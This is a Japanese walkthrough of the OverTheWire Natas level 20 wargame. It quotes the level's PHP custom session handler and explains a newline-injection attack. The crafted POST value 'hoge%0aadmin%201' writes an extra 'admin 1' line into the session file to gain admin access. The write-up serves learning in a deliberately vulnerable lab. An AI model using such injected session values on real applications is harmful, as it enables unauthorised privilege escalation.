



  

通常ユーザとしてログインされており、flagを得るには管理者としてログインしないといけないらしい。  

ソースコードを見てみる。  

```
 <html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas20", "pass": "<censored>" };</script></head>
<body>
<h1>natas20</h1>
<div id="content">
<?php

function debug($msg) { /* {{{ */
    if(array_key_exists("debug", $_GET)) {
        print "DEBUG: $msg<br>";
    }
}
/* }}} */
function print_credentials() { /* {{{ */
    if($_SESSION and array_key_exists("admin", $_SESSION) and $_SESSION["admin"] == 1) {
    print "You are an admin. The credentials for the next level are:<br>";
    print "<pre>Username: natas21\n";
    print "Password: <censored></pre>";
    } else {
    print "You are logged in as a regular user. Login as an admin to retrieve credentials for natas21.";
    }
}
/* }}} */

/* we don't need this */
function myopen($path, $name) {
    //debug("MYOPEN $path $name");
    return true;
}

/* we don't need this */
function myclose() {
    //debug("MYCLOSE");
    return true;
}

function myread($sid) {
    debug("MYREAD $sid");
    if(strspn($sid, "1234567890qwertyuiopasdfghjklzxcvbnmQWERTYUIOPASDFGHJKLZXCVBNM-") != strlen($sid)) {
    debug("Invalid SID");
        return "";
    }
    $filename = session_save_path() . "/" . "mysess_" . $sid;
    if(!file_exists($filename)) {
        debug("Session file doesn't exist");
        return "";
    }
    debug("Reading from ". $filename);
    $data = file_get_contents($filename);
    $_SESSION = array();
    foreach(explode("\n", $data) as $line) {
        debug("Read [$line]");
    $parts = explode(" ", $line, 2);
    if($parts[0] != "") $_SESSION[$parts[0]] = $parts[1];
    }
    return session_encode() ?: "";
}

function mywrite($sid, $data) {
    // $data contains the serialized version of $_SESSION
    // but our encoding is better
    debug("MYWRITE $sid $data");
    // make sure the sid is alnum only!!
    if(strspn($sid, "1234567890qwertyuiopasdfghjklzxcvbnmQWERTYUIOPASDFGHJKLZXCVBNM-") != strlen($sid)) {
    debug("Invalid SID");
        return;
    }
    $filename = session_save_path() . "/" . "mysess_" . $sid;
    $data = "";
    debug("Saving in ". $filename);
    ksort($_SESSION);
    foreach($_SESSION as $key => $value) {
        debug("$key => $value");
        $data .= "$key $value\n";
    }
    file_put_contents($filename, $data);
    chmod($filename, 0600);
    return true;
}

/* we don't need this */
function mydestroy($sid) {
    //debug("MYDESTROY $sid");
    return true;
}
/* we don't need this */
function mygarbage($t) {
    //debug("MYGARBAGE $t");
    return true;
}

session_set_save_handler(
    "myopen",
    "myclose",
    "myread",
    "mywrite",
    "mydestroy",
    "mygarbage");
session_start();

if(array_key_exists("name", $_REQUEST)) {
    $_SESSION["name"] = $_REQUEST["name"];
    debug("Name set to " . $_REQUEST["name"]);
}

print_credentials();

$name = "";
if(array_key_exists("name", $_SESSION)) {
    $name = $_SESSION["name"];
}

?>

<form action="index.php" method="POST">
Your name: <input name="name" value="<?=$name?>"><br>
<input type="submit" value="Change name" />
</form>
<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```

クエリパラメータに"debug"が使えるので付加して、  
"Your name"に"tekitou"を入力してみると...  

  

このようなdebugが表示された。  

```
DEBUG: MYREAD cp91vgfoggd2rg328kjf5k2ocj
DEBUG: Reading from /var/lib/php/sessions/mysess_cp91vgfoggd2rg328kjf5k2ocj
DEBUG: Read [name tekitou]
DEBUG: Read []
```
```
DEBUG: MYWRITE cp91vgfoggd2rg328kjf5k2ocj name|s:7:"tekitou";
DEBUG: Saving in /var/lib/php/sessions/mysess_cp91vgfoggd2rg328kjf5k2ocj
DEBUG: name => tekitou
```

ソースコードを見ると、
`session_set_save_handler()`でカスタムのセッション保存処理を行っており、  
`myread()`でセッションファイルの読み込みをしており、フォーマットはkey valueのテキスト形式（例：admin 1）である。  
`mywrite()`で$_SESSIONの内容をmysess_<SID>に書き込んでおり、シリアライズ形式ではなく、独自の「1行1エントリ」テキスト形式である。  

他にも`myopen()`、`myclose()`、`mydestroy()`、`mygarbage()`関数があるがダミーである。  


処理の流れは、以下のようにフォームからPOST or GETで送信されたnameをセッションに保存する。  
```
if(array_key_exists("name", $_REQUEST)) {
    $_SESSION["name"] = $_REQUEST["name"];
    debug("Name set to " . $_REQUEST["name"]);
}
```


`myread()`からコードを抜粋...  
```
foreach(explode("\n", $data) as $line) {
    // 各行の処理（↓ここで key と value に分けて $_SESSION に代入）
    $parts = explode(" ", $line, 2);
    if($parts[0] != "") $_SESSION[$parts[0]] = $parts[1];
}
```
`myread()`ではセッションファイルの中身（テキスト）を改行で区切って1行ずうｔ取り出し、  
各行を"キー 値"の形式で分解し、$_SESSION配列に入れているので、  

以下のようにリクエストを送ると、  

```
POST /index.php?debug HTTP/1.1
Host: natas20.natas.labs.overthewire.org
Authorization: Basic base64(natas20:<your_password>)
Cookie: PHPSESSID=hoge123
Content-Type: application/x-www-form-urlencoded
Content-Length: 16

name=hoge%0aadmin%201
```

セッションファイルが以下のようになっていたら、  
```
name hoge
admin 1
```
が  
```
$_SESSION["name"] = "hoge";
$_SESSION["admin"] = "1";
```
というように再構築される。  


そして再アクセスを行い管理者として認定されているか確認してみると、  

  


クリア


